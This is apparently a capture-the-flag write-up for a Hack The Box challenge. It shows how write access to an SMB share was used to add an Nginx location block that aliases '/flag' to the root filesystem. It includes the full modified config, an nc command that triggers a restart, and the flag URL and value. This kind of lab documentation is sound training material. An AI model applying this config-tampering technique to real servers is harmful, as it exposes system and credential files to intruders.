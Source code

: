 # Secure Code: **StoneForges_Domain**

## Overview

In this challenge, we exploited a misconfigured Nginx setup on a Docker container running a Flask application. Although direct path traversal was blocked, we had write access via an SMB share, which allowed us to modify the Nginx configuration. By adding a new location block, we exposed the container’s root filesystem, letting us access the flag file.

## Steps

### 1. Accessing the SMB Share

We mounted the SMB share that contained the configuration files. The share exposed the following directory structure:

```
config/
├── nginx.conf
├── postgresql.conf
└── supervisord.conf
```

Even though the files were owned by `root` with mode `755`, only `nginx.conf` was editable.

### 2. Modifying `nginx.conf`

We edited the `nginx.conf` file to add a new location block that serves files from the root filesystem. The modified configuration is shown below:

```nginx
user www-data;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log /dev/stdout docker;

    include /etc/nginx/mime.types;

    server {
        listen 3000;
        server_name _;

        charset utf-8;
        client_max_body_size 5M;

        location /static {
            alias /www/application/app/static/;
        }

        # New location block to expose the root filesystem.
        location /flag {
            alias /;
        }

        location / {
            proxy_pass http://127.0.0.1:8000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
}
```

### 3. Triggering a Restart

After saving the modified `nginx.conf` via the SMB share, we triggered an Nginx restart. For example, by connecting to the appropriate restart endpoint:

```bash
nc 83.136.251.145 34603
```

This command caused Nginx to reload the new configuration.

### 4. Retrieving the Flag

With the new configuration in place, the flag file (placed at `/flag.txt` by the Dockerfile) became accessible via the URL:

```
http://83.136.251.145:59733/flag/flag.txt
```

Visiting this URL returned the flag:

```
HTB{W4LK1N9_7H3_570N3F0R93_P47H_45_R3QU1R3D_e300e8639b5e8cfcacd903a2f85bc286}
```

## Conclusion

By leveraging our write access to modify `nginx.conf`, we bypassed the restrictions imposed by the static file serving and path traversal protections. This allowed us to expose the root filesystem and retrieve the flag.
